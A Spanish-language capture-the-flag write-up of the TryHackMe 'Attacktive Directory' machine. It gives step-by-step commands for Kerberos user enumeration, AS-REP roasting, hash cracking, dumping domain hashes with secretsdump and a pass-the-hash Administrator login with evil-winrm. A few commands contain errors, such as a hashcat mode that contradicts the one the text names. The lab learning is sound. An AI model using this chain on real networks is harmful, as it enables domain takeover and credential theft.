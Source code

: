 ```yaml
---
layout: post
title: Attacktive Directory | THM Write-up
description: Write up de la máquina Attacktive Directory de la plataforma Try Hack Me
tags: [ write-ups , seguridad , TryHackMe, Windows, AD, Domain Controller ]
---
```


# Indice
1. [Introducción](#introduction)

2. [Welcome to Attacktive directory](#task3)

3. [Enumerating Users via Kerberos](#task4)

4. [Abusing Kerberos](#task5) 

5. [Back to the Basics](#task6) 

6. [Elevating Privileges within the Domain](#task7) 

7. [Flag Submission Panel](#task8)  


# Introducción <a id="introduction"></a>

Como usuario de Linux/Mac, a menudo me cuesta recordar conceptos básicos de Windows. Es por ello que últimamente estoy intentando enfocarme más en este sistema operativo. Para ello, hoy voy a jugar con la máquina Attacktive Directory de [TryHackMe](https://www.tryhackme.com) y así poder repasar conceptos de autenticación, directorio activo, kerberos, etcétera. Todo esto me servirá para el examen de Certified Ethical Hacker v11 que quiero realizar en las próximas semanas.

NOTA: Los pasos 1 y 2 me los salto porque simplemente tratan de configurar la máquina e instalar los programas y scripts necesarios. 

# Welcome to Attacktive directory  <a id="task3"></a>

Este primer paso es sencillo. Simplemente trata de enumerar el `SMB`, que como ya sabemos corre por el puerto 139 (a través de NETBIOS) o bien a través del 445 (TCP). Para enumerarlo podemos usar `enum4linux`o bien nmap de la siguiente forma:

```
nmap -p 445 –script=smb-enum-shares.nse,smb-esnum-users.nse IPDELAVICTIMA
```

Pero para responder a la segunda pregunta, bastará con tirar de enum4linux con:

```
enum4linux -M IPDELAVICTIMA
```
(el parámetro M es porque sólo necesitamos saber el Domain Name de la máquina. Podríamos haber utilizado el parámetro -a para hacer una enumeración completa).

Las dos primeras preguntas estarían respondidas. Tan sólo queda la tercera, en la que nos preguntan cuál es el TLD (Top Level Domain) que no es válido y se suele utilizar. Generalmente se utiliza `.com`aunque también se suelen utilizar .home, .lan, .domain, .corp, .local... etcétera. Es este último el que es inválido , tal y como explican [en este hilo](https://serverfault.com/questions/1006000/is-tld-local-not-a-local-tld-anymore).

# Enumerating Users via Kerberos <a id="task4"></a>

Kerberos es el protocolo de autenticación que se usa por defecto en Windows. Utiliza una encriptación de llave secreta y por resumir mucho lo que hacemos cuando intentamos acceder como usuarios a una máquina Windows mediante este protocolo es lo siguiente:

 - Hacemos una petición a un Authentication Server (AS). Éste nos responde.

 - Hacemos otra petición al Ticket Granting Server (TGS). Éste nos devuleve un ticket.

- Una vez realizado este proceso ya podemos autenticarnos contra el Service Server (SS) enviando los mensajes que hemos recibido en los pasos anteriores. El Service Server validará los mensajes y así confirmar nuestra identidad.

NOTA: En la propia descripción de la máquina, nos avisan que las nuevas versiones de Kerberos no permiten la enumeración de usuarios mediante `Kerbrute`, que es lo que utilizaremos en el ejercicio. Así que han tenido que modificar la máquina sobre la que estamos trabajando para que funcione, pero en un caso de enumeración real habría que buscar otras vías. 

Me bajo el userlist, passwordlist y el propio kerbrute de github con:

```
git clone https://github.com/Sq00ky/attacktive-directory-tools
cd attacktive-directory-tools
chmod +x kerbrute
./kerbrute
```

Nos aparecen una lista de opciones, donde veo que el comando `userenum` sirve para ver usuarios. En el apartado anterior ya nos habían "chivado" que el dominio del AD era `spookysec.local`. Por tanto, tras ojear la documentación de kerbrute, pruebo lo siguiente para enumerar usuarios:

```
./kerbrute userenum -d IPDELAVICTIMA -dc spookysec.local userlist.txt
```

Nos dará como resultado una lista de usuarios, entre los que destacan "svc-admin" y "backup". 

# Abusing Kerberos <a id="task5"></a>

Ahora vamos a ejecutar un ataque de tipos `ASREPRoasting`, en el que abusamos de una configuración poco segura que supone la opción "No requiere Pre-Autenticación". Esta opción nos permite no tener una ID válida para pedir un ticket al Ticket Granting Server (TGS), y obviamente esto conlleva cierto riesgo. 

Mediante la herramienta `GetNPUsers.py` de `Impacket` podemos ejecutar este tipo de ataque si hay usuarios que tienen este opción configurada. Para ello necesitamos contar con uno, así que vamos a probar con el de svc-admin.

La primera pregunta es, por tanto, svc-admin.

Ahora voy a utilizar `GetNPUsers.py`, que está en la carpeta "/opt/impacket/examples". Es importante echar un ojo a las opciones antes de ejecutar el comando para entenderlo:

```
cd /opt/impacket/examples
./GetNPUsers.py
// (miro las opciones)
GetNPUsers.py -dc-ip IPVICTIMA spookysec.local/svc-admin
```

Me pide un password. Doy a ENTER y me aparece un hash "$krb5asrep$23...". En la descripción nos remiten a la página de [Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) para identificar el hash. Si filtro por "Kerberos" aparecen unos cuantos, pero el que más se aproxima al que he obtenido es `18200 	Kerberos 5, etype 23, AS-REP ` (mode 18200). 

Ahora queda crackear el hash con hashcat. Para ello primero copio el hash y lo meto en un archivo "hash.txt". 

```
hashcat -a 0 -m 17299 hash.txt ~/attacktive-directory-tools/passwordlist.txt
```
En unos segundos nos devuelve el hash crackeado. 

NOTA: El password aparece al final del hash, antes de la información donde nos aparece la sesión, el estatus, etcétera. Empieza por manage... 

# Back to the Basics <a id="task6"></a>

Ahora vamos intentar acceder con el usuario y la contraseña apropiadas al servidor SMB. Para ello utilizaremos `smbclient` (primera pregunta respondida). Si hacemos:

````
smbclient
````

Nos saldrá una lista de opciones, entre ellas -L para listar hosts (segunda pregunta). Para listar, por tanto, los shares:

````
smbclient -L IPVICTIMA -U svc-admin
````

Nos pide la contraseña que hemos obtenido antes, y nos aparecen 6 shares.Para el siguiente bloque de preguntas es necesario conectarse al share de `backup`. 

````
smbclient //IPVICTIMA/backup -U svc-admin
````

Y tras meter la contraseña, estamos dentro. Veo que hay un archivo llamado `backup_credentials.txt`. Me lo bajo:

````
ls
GET backup_credentials.txt
````

Una vez en mi máquina local, lo abro y veo que es un hash. Lo copio y lo trato de descodificar en una herramienta online ( busca con google, hay un montón), para descubrir que se trataba de una codificación en Base-64, por lo que podría haberlo hecho con `base64 -d` cómodamente en mi Linux. De todo se aprende...

# Elevating Privileges within the Domain <a id="task7"></a>

Aparentemente, según nos indican, tenemos la cuenta de backup del Domain Controller. Es decir, que todos los datos del Domain Controller se sincronizan con esta cuenta. Así que con la herramienta `secretsdump.py` del Impacket, podemos ver todos los passwords (hasheados, eso sí).

```
cd /opt/impacket/examples
.secretsdump.py
// miro el manual
secretsdump.py -just-dc backup@backup2517860@IPVICTIMA
```


(Al principio del output viene la respuesta a la pregunta 1).

La pregunta 3 es engañosa. Nos preguntan por cómo podemos autenticarnos sin necesidad del password. La respuesta es `Pass The Hash`, pero con éste método si que necesitamos el hash del password. A mi entender, está un poco mal formulada...

La siguiente pregunta es sobre [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), y en el enlace podemos ver la respuesta ( - H por si eres vago/a y no quieres mirarlo).


# Flag Submission Panel <a id="task8"></a>

Ahora con la herramienta [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) vamos a conectarnos a cada uno de los escritorios remotos mediante el hash obtenido de sus passwords en el ejercicio anterior. Primero lo instalaré y luego lo ejecutaré con el hash de Administrator:

````
gem install evil-winrm
evil-winrm -i IPVICTIMA -u Administrator -H HASHDELADMINISTRATOR

C:\Users\Administrator\Documents> cd \users
C:\Users> cd svc-admin
C:\Users\svc-admin> cd Desktop
C:\Users\svc-admin\Desktop> cat user.txt.txt
````

Y repetimos para el usuario backup y Administrator. 